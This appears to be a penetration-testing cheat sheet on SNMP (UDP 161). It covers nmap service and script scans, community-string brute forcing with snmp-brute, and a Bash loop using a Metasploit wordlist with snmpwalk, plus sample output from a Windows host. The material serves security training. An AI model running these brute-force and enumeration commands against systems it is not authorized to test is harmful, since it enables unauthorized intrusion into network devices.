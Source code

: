 **SNMP** is a protocol that runs in **UDP** port **161** that is used for network management, monitoring, and controlling devices such as routers, switches, servers, and printers. It allows administrators to gather valuable information about devices and networks, as well as configure and troubleshoot devices remotely.

---
## General Infomation
- **Versions of SNMP**:
    
    - **SNMPv1**: Basic version with minimal security (community strings).
    - **SNMPv2c**: Enhanced performance but still lacks strong security.
    - **SNMPv3**: Introduced authentication and encryption for better security.
- **Components of SNMP**:
    
    - **Manager**: A system that controls and monitors SNMP devices (e.g., network management software).
    - **Agent**: Software on the device that collects and reports information back to the manager.
    - **MIB (Management Information Base)**: A database defining what data the manager can query from the agent.


---

## Enumeration and Scanning Using Nmap

**Nmap** can be used to perform SNMP enumeration by scanning the SNMP service (usually on port 161) and using scripts to gather detailed information from SNMP-enabled devices.

**Scan for SNMP Service (Port 161) with Version and Script Detection**

This command scans for the SNMP service on port 161 and detects its version and available scripts. It provides details about the SNMP service, such as the version running on the target device.
```bash
nmap -sU -sCV -p 161 <target>
```

**Perform a Brute Force Attack on SNMP Community Strings**

This command uses the `snmp-brute` Nmap script to attempt brute-forcing common SNMP community strings (like `public`, `private`, and others). If successful, it reveals **valid community strings** that can be used to query the device.
```bash
nmap -sU -p 161 --script snmp-brute <target>
```

**Scan SNMP with Built-in Nmap Scripts**

This command runs all available Nmap SNMP-related scripts (`snmp-*`) to gather detailed information from the target device. If SNMP is improperly configured, this scan can provide an attacker with a comprehensive view of the target device, potentially revealing sensitive information such as device names, usernames, network configurations, and even passwords in some cases.
```bash
nmap -sU -p 161 --script snmp-* <target> > snmp_info
```


---


### SNMP Walk 

The **snmpwalk** command can be used to retrieve information from an SNMP-enabled device. It queries the device using the SNMP protocol and returns a list of available OIDs (Object Identifiers), which can provide detailed information about the device’s configuration and status.

- **`-v 1`**: Specifies SNMP version 1.
- **`-c public`**: Specifies the community string (`public` is the default read-only community string).

```bash
snmpwalk -v 1 -c public <target>
```


---

### Brute Force SNMP  communities

This Bash loop attempts to brute-force SNMP community strings using a wordlist. It reads each string from the Metasploit default SNMP wordlist and runs `snmpwalk` with SNMP version 2c against the target. The first 10 lines of each response are displayed to quickly identify valid strings.

```bash
for community in $(cat /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt); do
  echo "Trying community string: $community"
  snmpwalk -v2c -c $community server.prod.local | head -10
done
```

- `-v2c`: Specifies SNMP version 2c.
- `-c $community`: Uses each community string from the wordlist.
- `server.prod.local`: Target hostname or IP address.
- `head -10`: Limits output to the first 10 lines for readability.

```bash
Trying community string: **redacted**  
iso.3.6.1.2.1.1.1.0 = STRING: "Hardware: Intel64 Family 6 Model 85 Stepping 7 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 20348 Multiprocessor Free)"  
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.311.1.1.3.1.2  
iso.3.6.1.2.1.1.3.0 = Timeticks: (306460) 0:51:04.60  
iso.3.6.1.2.1.1.4.0 = ""  
iso.3.6.1.2.1.1.5.0 = STRING: "EC2AMAZ-A251FFF"  
iso.3.6.1.2.1.1.6.0 = ""  
iso.3.6.1.2.1.1.7.0 = INTEGER: 76  
iso.3.6.1.2.1.2.1.0 = INTEGER: 26  
iso.3.6.1.2.1.2.2.1.1.1 = INTEGER: 1  
iso.3.6.1.2.1.2.2.1.1.2 = INTEGER: 2
``` 
Once the community string is retrieved you can execute snmpwalk to extract the sensitive information.

```bash
snmpwalk -v 2c -c <community> <target> <OID_value>
```
